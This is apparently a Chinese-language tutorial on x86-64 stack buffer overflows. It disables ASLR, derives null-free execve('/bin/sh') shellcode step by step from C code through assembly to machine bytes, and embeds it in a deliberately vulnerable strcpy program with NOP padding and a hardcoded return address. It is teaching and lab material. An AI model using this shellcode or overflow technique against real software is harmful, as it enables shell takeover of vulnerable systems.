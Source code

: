 # 栈溢出攻击介绍

## 准备环境
> 关闭堆栈随机化：echo 0 > /proc/sys/kernel/randomize_va_space

## 编写shell code代码

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    int main(int argc, char **argv)
    {
        char *name[2];

        name[0] = "/bin/sh";
        name[1] = NULL;
        execve(name[0], NULL, NULL);
	    exit(0);
 
        return 0;
    }
	
> 首先，shellcode代码需要静态编译即`gcc -static shellcode.c -o shellcode`,
> 然后反汇编shellcode：objdump -saxd shellcode > shellcode.s，内容如下：

    000000000043d6b0 <__execve>:
    01:   f3 0f 1e fa             endbr64  
	02:   b8 3b 00 00 00          mov    $0x3b,%eax
    03:   0f 05                   syscall
    04:   48 3d 01 f0 ff ff       cmp    $0xfffffffffffff001,%rax  
	05:   73 01                   jae    43d6c4 <__execve+0x14>
    06:   c3                      retq
    07:   48 c7 c1 c0 ff ff ff    mov    $0xffffffffffffffc0,%rcx  
	08:   f7 d8                   neg    %eax
    09:   64 89 01                mov    %eax,%fs:(%rcx)
    10:   48 83 c8 ff             or     $0xffffffffffffffff,%rax  
	11:   c3                      retq
    12:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    13:   00 00 00   
	14:   90                      nop
	
    00000000004016d5 <main>:
    15:   55                      push   %rbp     
	16:   48 89 e5                mov    %rsp,%rbp
    17:   48 83 ec 20             sub    $0x20,%rsp
    18:   89 7d ec                mov    %edi,-0x14(%rbp)  
	19:   48 89 75 e0             mov    %rsi,-0x20(%rbp)
    20:   48 c7 45 f0 10 00 48    movq   $0x480010,-0x10(%rbp)
    21:   00   
	22:   48 c7 45 f8 00 00 00    movq   $0x0,-0x8(%rbp)
    23:   00 
    24:   48 8b 45 f0             mov    -0x10(%rbp),%rax  
	25:   ba 00 00 00 00          mov    $0x0,%edx
    26:   be 00 00 00 00          mov    $0x0,%esi
    27:   48 89 c7                mov    %rax,%rdi  
	28:   e8 a6 bf 03 00          callq  43d6b0 <__execve>
    29:   bf 00 00 00 00          mov    $0x0,%edi
    30:   e8 7c 77 00 00          callq  408e90 <exit> 
    31:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    32:   00 00 00 
    33:   66 90                   xchg   %ax,%ax
	
	Contents of section .rodata: 480000 01000200 00000000 00000000 00000000
	................
    480010 2f62696e 2f736800 00000000 00000000  /bin/sh.........
	
> 提取20行-28行，并将28行用01行-03行替换，可以得到一段未经过处理的shell code,如下

    01 movq   $0x480010,-0x10(%rbp)
	02 mov    -0x10(%rbp),%rax
    03 mov    $0x0, %edx
    04 mov    $0x0, %rsi
    05 mov    %rax,%rdi 
	06 mov    $0x3b, %eax
    07 endbr64
    08 syscall
	
> 01行中的0x480010地址的内容在rodata段上面，值为2f62696e 2f736800，即/bin/sh。但是在注入代码中不会存在这个值，因此需要将该静态存储值转换到栈中，转换后如下，

    01 sub $0x8, %rsp              # 开辟8个字节的栈空间
    02 mov $0x6e69622f, %rax       # 将/bin存放到rsp开始的连续4字节   
	03 mov %rax, (%rsp)
    04 mov $0x68732f2f, %rax       # 将//sh存放到rsp+4开始的连续4字节，占用8字节的栈空间
    05 mov %rax, 0x4(%rsp)
    06 mov $0x0, %edx
    07 mov $0x0, %rsi
    08 movq %rsp, %rdi
	09 mov $0x3b, %eax
    10 endbr64
    11 syscall
	
> 其中，由于我们采用的是栈攻击，并且是对strcpy进行攻击（strcpy是以'\0'作为结尾的，因此在shellcode里面不能有'\0'字符出现），因此需要将06-07行，09行进行转换，转换后结果为，

    sub $0x8, %rsp
    mov $0x6e69622f, %rax
    mov %rax, (%rsp)
    mov $0x68732f2f, %rax
    mov %rax, 0x4(%rsp)
    xor %edx, %edx
    xor %rsi, %rsi
    movq %rsp, %rdi
    xor %eax, %eax
    mov $0x3b, %al
    endbr64
    syscall
    add $0x8, %rsp
	
> 将如上，汇编编译成机器码，可以得到shellcode为，

    0x48,0x83,0xec,0x08,                     // sub    $0x8,%rsp
	0x48,0xc7,0xc0,0x2f,0x62,0x69,0x6e,      // mov    $0x6e69622f,%rax 
    0x48,0x89,0x04,0x24,                     // mov    %rax,(%rsp)
    0x48,0xc7,0xc0,0x2f,0x2f,0x73,0x68,      // mov    $0x68732f2f,%rax
    0x48,0x89,0x44,0x24,0x04,                // mov    %rax,0x4(%rsp)
    0x31,0xd2,                               // xor    %edx,%edx 
    0x48,0x31,0xf6,                          // xor    %rsi,%rsi
    0x48,0x89,0xe7,                          // mov    %rsp,%rdi 
    0x31,0xc0,                               // xor    %eax,%eax
    0xb0,0x3b,                               // mov    $0x3b,%al
    0xf3,0x0f,0x1e,0xfa,                     // endbr64
    0x0f,0x05,                               // syscall
	
> 将这段shellcode作为strcpy的src参数，传递给dest，进行拷贝，编译运行，然后看运行效果。

## 被测试代码如下，

    #include <stdio.h>#include <string.h>
    #include <stdlib.h>
	
    #define MAX_SIZE 50     /*  buffer size in stack */

    /* X86_64 shell code */
    static char shell_code[] = { 
        0x48,0x83,0xec,0x08,                     // sub    $0x8,%rsp 
        0x48,0xc7,0xc0,0x2f,0x62,0x69,0x6e,      // mov    $0x6e69622f,%rax 
        0x48,0x89,0x04,0x24,                     // mov    %rax,(%rsp)
        0x48,0xc7,0xc0,0x2f,0x2f,0x73,0x68,      // mov    $0x68732f2f,%rax
        0x48,0x89,0x44,0x24,0x04,                // mov    %rax,0x4(%rsp)
        0x31,0xd2,                               // xor    %edx,%edx
        0x48,0x31,0xf6,                          // xor    %rsi,%rsi
        0x48,0x89,0xe7,                          // mov    %rsp,%rdi
        0x31,0xc0,                               // xor    %eax,%eax
        0xb0,0x3b,                               // mov    $0x3b,%al
        0xf3,0x0f,0x1e,0xfa,                     // endbr64
        0x0f,0x05,                               // syscall
        0x48,0x83,0xc4,                          // nop
        0x08,0x90,0x90,0x90,0x90,0x90,0x90,0x90, // nop --> aligned
        0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90, // nop -->
        0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90, // nop --> ebp
        0xa0,0xde,0xff,0xff,0xff,0x7f,0x00,0x00, // rip = shellcode address
    };

    static int string_copy(char * src)
    {
        char dest[MAX_SIZE];

        if (strcpy (dest, src) == NULL)
            printf ("strcpy failed\n");
        else 
            printf ("strcpy success\n");

        return 0;
    }

    int main(int argc, char *argv[])
    {
        return string_copy(shell_code);
    }

> 编译方式：gcc -g -z execstack -fno-stack-protector stack_test.c -o stack_test


> 注意：因为strcpy的目标缓冲区是50个字节，然后ebp占用8字节， rip占用8字节，栈对齐到16字节，因此shellcode需要80字节，而我们的shellcode不够80字节，剩下的用nop填充，即0x90。最后在rip的位置填充好的shellcode在栈上面的其实地址即可。
